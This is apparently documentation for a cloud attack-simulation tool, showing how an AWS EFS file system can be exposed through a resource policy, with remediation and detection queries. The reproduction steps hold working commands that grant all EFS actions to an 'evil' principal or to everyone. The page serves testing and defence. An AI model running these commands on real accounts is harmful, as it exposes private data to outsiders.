 # Elastic File Systems (EFS)

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

> Note: The Terraform demo infrastructure will output the EFS File System ID. If you are using the Terraform demo infrastructure, you must leverage the file system ID in the `--name` parameter.

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service efs --name fs-01234567
```

* Alternatively, to expose the resource using the AWS CLI, run the following from the victim account:

```bash
aws efs put-file-system-policy --file-system-id fs-01234567 --policy '{
    "Version": "2012-10-17",
    "Id": "read-only-example-policy02",
    "Statement": [
        {
            "Sid": "AllowEverybody",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
                "elasticfilesystem:*"
            ],
            "Resource": "*"
        }
    ]
}'
```

* To view the contents of the file system policy, run the following:

```bash
aws efs describe-file-system-policy \
    --file-system-id fs-01234567
```

* Observe that the contents of the overly permissive resource-based policy match the example shown below.

## Example

The policy below shows the EFS policy granting `elasticfilesystem:*` access to the file system from the evil principal (`arn:aws:iam::999988887777:user/evil`).

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowCurrentAccount",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::111122223333:root"
            },
            "Action": "elasticfilesystem:*",
            "Resource": "arn:aws:elasticfilesystem:us-east-1:111122223333:file-system/fs-01234567"
        },
        {
            "Sid": "Endgame",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::999988887777:user/evil"
            },
            "Action": "elasticfilesystem:*",
            "Resource": "arn:aws:elasticfilesystem:us-east-1:111122223333:file-system/fs-01234567"
        }
    ]
}
```


## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Block Public Access to the EFS File System**: Follow the EFS Guidance [here](https://docs.aws.amazon.com/efs/latest/ug/access-control-block-public-access.html) to block public access to the EFS File Systems.
* **Leverage Strong Resource-based Policies**: Follow the resource-based policy recommendations in the [Prevention Guide](https://endgame.readthedocs.io/en/latest/prevention/#leverage-strong-resource-based-policies)
* **Trusted Accounts Only**: Ensure that EFS File Systems are only shared with trusted accounts, and that the trusted accounts truly need access to the File System.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your EFS File Systems**: Tightly control access to the following IAM actions:
      - [elasticfilesystem:PutFileSystemPolicy](https://docs.aws.amazon.com/efs/latest/ug/API_PutFileSystemPolicy.html): _Grants permission to apply a resource-level policy that defines the actions allowed or denied from given actors for the specified file system_
      - [elasticfilesystem:DescribeFileSystems](https://docs.aws.amazon.com/efs/latest/ug/API_DescribeFileSystems.html): _Grants permission to view the description of an Amazon EFS file system specified by file system CreationToken or FileSystemId; or to view the description of all file systems owned by the caller's AWS account in the AWS region of the endpoint that is being called_
      - [elasticfilesystem:DescribeFileSystemPolicy](https://docs.aws.amazon.com/efs/latest/ug/API_DescribeFileSystemPolicy.html): _Grants permission to view the resource-level policy for an Amazon EFS file system_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='elasticfilesystem.amazonaws.com' and eventName='PutFileSystemPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='elasticfilesystem.amazonaws.com' and (eventName='PutFileSystemPolicy' and requestParameters.policy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [put-filesystem-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/efs/put-file-system-policy.html)
* [Creating File System Policies](https://docs.aws.amazon.com/efs/latest/ug/create-file-system-policy.html)

